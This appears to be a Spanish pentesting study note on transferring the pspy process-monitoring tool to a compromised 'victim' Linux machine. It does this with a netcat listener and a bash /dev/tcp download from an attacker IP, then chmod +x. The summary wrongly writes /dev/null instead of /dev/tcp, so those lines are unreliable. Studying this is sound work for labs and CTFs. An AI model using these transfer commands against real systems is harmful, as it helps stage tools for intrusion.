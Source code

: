 [Link de la herramienta pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1)

# Resumen de comandos en orden

```shell
Desde nuestra maquina: nc -nlvp Puerto < NombreDelArchivo
Desde la maquina victima: cat < /dev/null/IpDeNuestraMaquina/Puerto > NombreDelArchivo
```
--------

Es una herramienta que permite **ver procesos en ejecución en tiempo real** en sistemas Linux **sin necesidad de privilegios root**.
![[pspy.png]]
Para pasarnos el pspy desde nuestra maquina a la maquina victima
```shell
Desde nuestra maquina: nc -nlvp Puerto < NombreDelArchivo
Ejemplo desde nuestra maquina: nc -nlvp 443 < pspy

Desde la maquina victima: cat < /dev/tcp/IpDeNuestraMaquina/Puerto > NombreDelArchivo
Ejemplo desde la maquina victima: cat < /dev/tcp/10.10.11.130/443 > pspy
```
Para mas informacion sobre el comando [[nc -nlvp 443]]

*Parametros comando maquina victima*
`cat` Es para ver el contenido de un archivo
`< /dev/null/IpDeNuestraMaquina/Puerto` Establece una conexion a nuestra maquina


##### Recordatorio
Una vez recibido el archivo a la maquina victima, recordar darle permisos de ejecucion
```shell
chmod +x NombreDelArchivo
Ejemplo: chmod +x pspy
```